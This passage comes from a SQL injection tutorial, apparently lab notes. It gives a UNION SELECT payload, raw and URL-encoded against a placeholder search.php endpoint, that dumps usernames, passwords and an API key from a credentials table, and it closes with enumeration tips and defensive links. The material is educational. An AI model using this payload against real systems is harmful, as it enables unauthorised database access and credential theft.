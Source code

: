 ```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

Note: Use the dot operator to refer to the "credentials" table in the "dev" database

Example URL:

```sql
http://SERVER_IP:PORT/search.php?port_code=cn'+UNION+select+1%2C+username%2C+password%2C+4+from+dev.credentials--+-
```

Output:

* Retrieves all entries from the "credentials" table
    
* Contains sensitive information like password hashes and an API key
    

## **Conclusion**

* Database enumeration is a crucial step in SQL injection exploitation
    
* Involves identifying the DBMS, databases, tables, and columns
    
* The INFORMATION\_SCHEMA database provides metadata for forming SELECT queries
    
* MySQL fingerprinting helps in using the correct syntax and queries
    
* Retrieving data from specific tables requires knowing the database, table, and column names
    
* Be cautious when dealing with sensitive information and ensure proper authorization
    

## **Additional Resources**

* [MySQL Documentation](https://dev.mysql.com/doc/)
    
* [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    
* [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
